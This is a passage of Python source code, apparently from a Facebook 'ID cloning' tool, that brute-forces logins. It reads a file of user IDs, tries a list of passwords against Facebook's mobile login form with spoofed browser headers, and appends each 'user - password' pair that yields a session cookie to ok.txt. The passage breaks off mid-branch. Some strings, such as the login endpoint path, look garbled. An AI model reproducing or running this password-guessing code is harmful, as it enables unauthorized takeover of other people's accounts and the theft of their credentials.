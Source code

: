 		
class __crack__:
	def __init__(self):
		self.id = []
	def plerr(self):
		os.system("clear");print(banner)
		print('          \033[1;32m[ File CLONING CP/OK IDS MIX ] ')
		print(50*"\033[1;97m_")
		try:
			self.apk = input("\033[1;37m[+] \033[1;36mFILE PATH\033[1;31m : \033[1;32m ")
			print ('')
			self.id = open(self.apk).read().splitlines()
		except:
			print('\n \033[1;37m[!] \033[1;31mFile Not Found In Storage')
			input('\n\033[1;37m[*] \033[1;36mPress Enter To Back');main()
		self.__pler__() 
	def __mbasic__(self, user, _sempak_):
		global ok,cp,loop
		sys.stdout.write(f"\r \x1b[1;97m[\033[1;36mKing\033[1;37m] {loop}/{len(self.id)} \033[1;37m[\033[1;36mTOTAL-Idz\033[1;37m] \033[1;37m[\033[1;36m{len(ok)}\033[1;37m]")
		sys.stdout.flush()
		for pw in _sempak_:
			pw = pw.lower()
			try: os.mkdir('')
			except: pass
			try:
				Adiagents = random.choice(liners)
			except (KeyError, IOError):
				Adiagents  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
			ses = requests.Session()
			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post("https://mbasic.facebook.com/login/device-based/vKingdate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
			if 'c_user' in ses.cookies.get_dict():
				print('\r\033[1;37m[\033[1;32mKing-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('ok.txt','a').write('%s\n' % wrt)
				break
			elif 'checkpoint' in ses.cookies.get_dict():